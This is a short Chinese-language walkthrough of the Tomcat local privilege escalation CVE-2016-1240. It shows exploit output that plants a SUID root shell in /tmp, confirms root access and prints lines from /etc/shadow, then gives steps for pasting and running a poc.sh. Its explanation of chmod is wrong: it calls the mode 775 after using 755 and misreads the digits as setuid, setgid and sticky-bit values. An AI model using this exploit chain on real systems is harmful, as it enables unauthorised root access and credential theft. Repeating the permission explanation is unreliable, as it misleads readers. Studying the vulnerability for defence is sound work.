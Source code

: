     [+] Escalating privileges via the /usr/bin/sudo SUID binary to get root!

    [+] Rootshell got assigned root SUID perms at: 
    -rwsrwxrwx 1 root root 1037464 Sep 30 22:27 /tmp/tomcatrootsh

    Please tell me you're seeing this too ;)


    [+] Executing the rootshell /tmp/tomcatrootsh now! 

    tomcatrootsh-4.3# id
    uid=110(tomcat7) gid=118(tomcat7) euid=0(root) groups=118(tomcat7)
    tomcatrootsh-4.3# whoami
    root
    tomcatrootsh-4.3# head -n3 /etc/shadow
    root:$6$oaf[cut]:16912:0:99999:7:::
    daemon:*:16912:0:99999:7:::
    bin:*:16912:0:99999:7:::
    tomcatrootsh-4.3# exit
    exit

首先我们下载poc文件，然后执行命令`cd /tmp`进入目录,然后编辑文件`vim poc.sh`。将桌面的poc.sh使用Notepad++打开，将文件内容粘贴进去。然后按键盘Esc键，再输入`:wq`，之后按
Enter 键将文件保存。 如果无法写入文件，使用命令

    chmod 755 poc.sh

执行命令后，再次重复上一步即可，chmod的意思是改变文件的权限，775是什么权限呢？第一个数字代表文件所属者的权限，第二个数字代表文件所属者所在组的权限，第三个数字代表其它用户的权限，7=4+2+1

> 4：执行时设置用户ID，用于授权给基于文件属主的进程，而不是给创建此进程的用户。
> 2：执行时设置用户组ID，用于授权给基于文件所在组的进程，而不是基于创建此进程的用户。
> 1：设置粘着位。

![](./resource/(CVE-2016-1240)Tomcat本地提权漏洞/media/rId34.gif)
